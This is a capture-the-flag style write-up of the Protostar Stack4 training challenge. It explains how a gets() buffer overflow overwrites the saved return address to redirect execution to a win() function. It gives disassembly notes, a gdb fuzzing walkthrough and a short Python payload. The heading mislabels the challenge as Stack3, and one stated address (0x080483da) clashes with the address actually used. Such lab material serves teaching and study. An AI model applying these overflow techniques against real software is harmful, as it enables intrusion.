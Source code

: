 ```yaml
---
title: Protostar - Stack 4
date: 2024-02-14 20:32:00
categories: [binary-exploitation, protostar]
tags: [protostar, binary-exploitation, stack4]
---
```


# Conquering Stack3 at Protostar Machine
Hello !  Today, I will solve [Stack4](https://exploit.education/protostar/stack-four/) challenge on [Protostar](https://exploit.education/protostar) machine .

This time,our mission to hijack the execuation flow and make it flow as we want , Hackers Hah XD .. 
we need to make the program exec flow change and run function called `win` .
We Love `eip` hijacking hah ;). prepair your self and your terminal and let,s go.

- this challenge requiring us to Redirect Execution to call function called `win` defined in the code useing through exploitation of stack-bufferoverflow.

### **Challenge Overview**
- **Challenge Name:** [Stack4](https://exploit.education/protostar/stack-four/)
- **Machine:** [Protostar](https://exploit.education/protostar)

### Step 1: Explore Binary
![Stack4 Explore](/assets/img/protostar/stack4-explore.png)
Again there is input ... Hmmm i think i know this function which prompt input XD .. , but i will not say :D .. you will know later :) .
### Step 2: Analysis
![Stack4 Analsis](/assets/img/protostar/stack4-analysis.png)
1. Function Prologue:
   - `push ebp`: save the base pointer.
   - `mov ebp, esp`: set up  new base pointer.
   - `and esp, 0xfffffff0`: align the stack.
   - `sub esp, 0x60`: allocate space for local variables.
2. create pointer to buffer on stack and store it in `[esp]` pointer:
- `lea eax, [esp+0x10]`: load effective address into `eax`.
- `mov DWORD PTR [esp], eax`: store the address pointed by `eax` at top of the stack.
3. Function Calls:
- `call 804830c <gets@plt>`: calling the gets function. so my friend . that is the function which i told you about ;)
4. Function Epilogue:
- `leave` restore the stack frame. it is short for `mov esp,ebp` and `pop ebp`
- `ret` return from the function. 
5. `win` function address is at `0x080483f4` 

### Step 3: Debugging

#### Theory of instruction `call`

1. first when call a function program `push` current eip address on stack 
2. then `jmp` to function which called 
3. function `push ebp` , and `mov ebp,esp` which is known as `Function Prologue` which is init stack frame
4. at the end of function when it finished it make  `Function Epilogue` which is destory stack frame by `mov esp,ebp` then `pop ebp` which is also can be shorted as `leave` instruction
5. when execute `ret` in this function which called the `eip` `pop` the first value pushed before in the stack in step 1 which represent the `eip` value which is instruction after the function called to continue execute code that after function call

Now let,s fuzz & debug ! ;)

1. create fuzz script at `~/fuzz.py` contains:
```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"
print(fuzz)
```
2. debug binary with gdb and disassemble `main` 
3. break point at `leave` instruction in `main`
4. run binary with stdin from output of running `~/fuzz.py`
5. check fuzz value at ebp register
6. check fuzz value at eip register
![Stack4 Debug](/assets/img/protostar/stack4-gdb-debug.png)

![Stack4 Debug](/assets/img/protostar/stack4-gdb-debug2.png)
- `ebp` value now is `0x53535353` which is hexadecimal respresntation for  fuzz value `SSSS` 

![Stack4 Debug](/assets/img/protostar/stack4-gdb-debug3.png)
- and of course  `eip` value now is `0x54545454` which is hexadecimal respresntation for fuzz value `TTTT` 
- well done now let,s craft our solution

### Step 4: Crafting Solution 
okay let,s update our script: `~/fuzz.py`

```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR"
ebp="SSSS"
eip="\xf4\x83\x04\x08" # represent 0x080483f4 on little endian machines. 0x080483f4 is address of win function
print(fuzz+ebp+eip)
```
now `eip` will have the address of `0x080483da` which is address for function `win`
let,s run our solution redirect output of `~/fuzz.py` to our beautiful binary `stack4`

![Stack4 Sloved](/assets/img/protostar/stack4-solved.png)

and now function `win` called .. 
We `win` !  .. CheckMate ;) 
See You in `stack5` ;)
